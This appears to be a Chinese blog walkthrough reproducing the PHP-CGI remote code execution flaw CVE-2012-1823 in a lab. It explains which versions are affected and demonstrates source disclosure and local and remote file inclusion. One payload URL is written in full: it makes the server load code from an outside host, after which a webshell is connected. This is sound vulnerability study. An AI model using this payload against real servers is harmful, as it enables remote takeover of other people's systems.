

PHP-CGI远程代码执行漏洞（CVE-2012-1823）
First Post:
Last Update:
Word Count:
Read Time:
Last Update:
Word Count:
813
Read Time:
3 min
0x01 漏洞介绍
这个漏洞简单来说，就是用户请求的querystring（querystring字面上的意思就是查询字符串，一般是对http请求所带的数据进行解析，这里也是指http请求中所带的数据）被作为了php-cgi的参数，最终导致了一系列结果。
影响范围：
漏洞影响版本 php < 5.3.12 or php < 5.4.2
PS:CVE-2012-1823是在php-cgi运行模式下出现的漏洞，其漏洞只出现在以cgi模式运行的php中
cgi模式下有如下可控命令行参数可用：
-c指定php.ini文件（PHP的配置文件）的位置-n不要加载php.ini文件-d指定配置项-b启动fastcgi进程-s显示文件源码-T执行指定次该文件-h和-?显示帮助
0x02 CGI简单介绍
1 | |
0x03 漏洞复现
配置好访问8080端口，如图则代表搭建成功
接下来是漏洞利用
1. 源码泄露
简单的利用方式就是-s可以直接显示源码
访问不同页面均能显示源码
2. 文件包含
-d参数就是文件包含
1 | |
我们url输入后抓包修改
3. 远程文件包含
payload:
1 | |

上传之后尝试蚁剑连，链接地址为http://192.168.17.128:8080/index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dhttp://ip/1.txt
4. 本地包含
payload:
1 | |
这里介绍下/proc/self/environ在文件包含中的作用
1 | |
上述为bp抓包修改
不过我们还是可以进行本地包含的 使用curl来完成
payload:
1 | |
0x04 参考文章
（CVE-2012-1823）PHP-CGI远程代码执行漏洞
软件漏洞——PHP-CGI（CVE-2012-1823） --搭配msf反弹shell